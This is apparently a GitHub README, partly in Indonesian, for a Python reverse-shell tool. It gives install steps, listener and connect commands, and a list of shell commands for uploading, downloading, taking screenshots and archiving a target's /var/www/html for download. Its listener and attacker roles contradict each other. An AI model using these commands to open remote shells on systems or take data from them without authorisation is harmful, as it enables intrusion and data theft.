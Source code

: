 # Python Reverse Shell Hacking
![carbon](https://github.com/user-attachments/assets/c6c5c0ac-6b10-42e4-aed8-0dd5249e5124)

## This tool is designed for:
* Penetration testing ⚔️
* Remote administration 🖥️
* File transfer between systems 📁
* Network troubleshooting 🌐

## Security Features

🔒 Port Customizable
- Can use any port (1-65535)

⚠️ Error Handling
- Clear error notification
- Doesn't crash when command fails

📜 Logging (In advanced version)
Records all activities to a log file

## ⚙️ Dependensi
```console
pip install colorama
```

##  🛠 Installation

1️⃣ System Requirements
* Python 3.x installed
* Terminal/command prompt access
* Internet connection (for dependency installation)

2️⃣ Installation Steps

💻 Linux/macOS
```console
# 1. Clone repositori (if any) or copy the script to file .py
git clone https://github.com/hidayat-tanjung/revershe.git  # Replace with original repo if available
cd reverse

# 2. Install dependensi (just colorama)
pip3 install colorama

# 3. Grant execution permission
chmod +x reverse.py  # Replace with your script file name

# 4. Run the tool
./reverse.py
```
🪟 Windows (PowerShell)
```console
# 1. Save script as `reverse.py`

# 2. Install dependencies
pip install colorama

# 3. Run the tool
python reverse.py
```

🔌 Mode Listener (Server)
```console
./reverse.py -l -p 4444  # Listen for connections on port 4444
```
Use this on attacker machine.

🎯 Mode Connect (Client)
```console
./reverse.py -c 192.168.1.100 -p 4444  # Contact the listener on the target IP
```
Run this on the target machine to connect to the listener.

If run without arguments, the tool will display an interactive menu:
```console
./reverse.py 
```
Select an option:

* `Start Listener` (Start the server)
* `Connect to Target` (Contact the server)
* `Show Help` (Instructions for use)

Usage example:

- Select option 1 (Start Listener)
- Enter the port (eg 4444)
- On the target computer will appear:
```console
[*] Listening on port 4444
```
As a Listener (Target):
```console
python3 reverse.py -l -p 4444
```
Output 
```console
[*] Listening on port 4444
[+] Connection from [IP_ATTACKER]
```
As an Attacker:
```console
python3 reverse.py -c [IP_TARGET] -p 4444
```
Output 
```console
[*] Connected to [IP_TARGET]:4444
shell>
```

## Fitur 
```console
shell> upload /path/lokal/file.txt
shell> download /path/remote/file.txt
shell> download /path/remote/folder  # Untuk direktori
shell> help       # Menampilkan bantuan
shell> sysinfo    # Info sistem target
shell> ls         # List direktori target
shell> cd /path   # Ganti direktori
shell> exit       # Keluar
shell> help       # Menampilkan bantuan
shell> sysinfo    # Info sistem target
shell> ls         # List direktori target
shell> cd /path   # Ganti direktori
shell> exit       # Keluar
shell> whoami
shell> ipconfig/ifconfig
shell> cd /path
shell> ls -la
shell> sysinfo  # Menampilkan info sistem target
shell> screencap -o /tmp/screen.png
shell> download /tmp/screen.png
shell> tar -czf /tmp/data.tar.gz /var/www/html
shell> download /tmp/data.tar.gz
shell> apt-get update && apt-get install -y nmap
```
## ⚡ Additional Features
- Transfer File
  - `upload file.txt` → Upload files to target
  - `download /path/file` → Download files from target
- Command Execution
  - Run regular shell commands(`ls, whoami, dll`.)
- Auto Compression
  - The folder will be compressed so `.tar.gz` before sending

📜 License
MIT License - Free for personal and commercial use

[![GitHub](https://img.shields.io/badge/GitHub-View_Project-blue?logo=github)](https://github.com/hidayat-tanjung/revershe)
